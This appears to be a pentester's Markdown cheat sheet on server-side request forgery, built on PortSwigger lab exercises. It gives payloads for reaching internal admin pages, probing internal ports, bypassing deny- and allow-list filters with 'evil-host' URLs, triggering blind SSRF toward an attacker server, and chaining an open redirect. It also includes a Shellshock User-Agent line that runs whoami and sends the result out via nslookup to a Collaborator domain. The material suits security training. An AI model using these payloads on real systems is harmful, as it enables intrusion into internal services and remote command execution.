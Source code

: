 # Server-side Request Forgery (SSRF)

## Summary

* [Recon for SSRF](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

<br>

## Resources

* https://portswigger.net/web-security/ssrf

* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery 

<br>

## Recon

### Identify SSRF

* Identify any request parameters that appear to contain hostnames, IP addresses or full/partial URLs

* Modify each parameter’s value to specify another resource, similar to the one requested, and see if it appears in the response

* Try to specify a URL resource that you control out on the internet and monitor it for any connections.  If no connections are received monitor the time taken for the application to respond, if there is a delay it could be a time-out connection due to network restrictions

<br>

## Cheat Sheet

**If we find an interesting parameter that contains hostnames, IP addresses or full URLs, the following payloads can help to identify SSRF:**

<br>

### Access Control Bypass


* Use a localhost or valid internal IP address, through a SSRF vector, to potentially bypass access controls implemented on sensitive resources on the application that only allow access to admin users or through a specific IP address/network-interface:

   * Examples:

```
http://localhost/admin
```
```
http://192.168.0.5:8080/admin
```

<br>

### Resource Enumeration


* Change the parameter value to another resource and analyze how the application responds.  We can probe for port numbers, internal IP addresses, different hostnames, and analyze the application’s responses.  

* Ideally, we should know how the application responds to a valid vs invalid specified resources, so we can easily determine when an injected value is valid:

   * Examples:

```
http://192.168.0.1:22
```
```
http://192.168.0.1:8080
```

<br>

### Bypasses for disallow-list filter

* If the application is blocking requests for http://127.0.0.1 and /admin resources, we can try the following bypass techniques:

* Link:  https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses

#### Other representations for 127.0.0.1:

```
http://127.1
```

#### URL Encoding:

```
%68%74%74%70%3a%2f%2f%31%32%37%2e%31
```


#### Obfuscation/Case Variation:

```
http://127.0.0.1/AdMiN
```


<br>

### Bypasses for allow-list filter

* If the application is only checking that a specific host is somewhere within the parameter, we can bypass this restriction with the following payloads:

#### Embed credentials @ in a URL before hostname:

```
https://expected-host@evil-host
```

#### \# character specifies a URL fragment:  

```
https://evil-host#expected-host
```


#### Complex method to bypass allow list restrictions (try to encode/double-encode the \#/@ characters too):

```
https://evil-host#evil-host@expected-host/evil-path
```
```
https://expected-host@evil-host/evil-path#
```

<br>

### Blind SSRF

* If the application does not return any notable differences in the responses from our SSRF payloads, then we can use Blind SSRF techniques:

* Inject a payload that will trigger an HTTP connection to a domain that you control and monitor for any network traffic.

* Inject this payload in all susceptible parameters and headers (Referer):

    * Example:  Referer: https://ATTACKER-SERVER


<br>

### SSRF via Open Redirection

* The goal here is to find both an Open Redirection and SSRF vulnerability.  The SSRF vector may only allow webroot paths within the same target application.  Inject the Open Redirection payload within the SSRF vector and identify how the application responds.

* Example:

* Open Redirection vulnerability, we can supply what ever value we want in the "path" parameter and it will reflect on the "Location" HTTP response header:

```
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```

* SSRF vulnerability via the "stockApi" parameter: (Note: URL encoding may be required for certain characters in the payload to process correctly.)

```
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin
```

* https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

<br>

### Blind SSRF with Shellshock exploitation

* The application is vulnerable to a SSRF vulnerability through the Referer header.

* The HTTP interaction contains the User-Agent String within the request.

* Payload (set this at the User-Agent header value of the HTTP request):

  * User-Agent: () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

* Enumerate an internal resource that the application can reach and place this payload in the Referer header.

  * Example:  Referer: 192.168.0.2:8080

* The ShellShock payload will be executed in the context of that internal resource and we'll get the "user" (whoami) of the system sent to Burp Collaborator.


<br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.
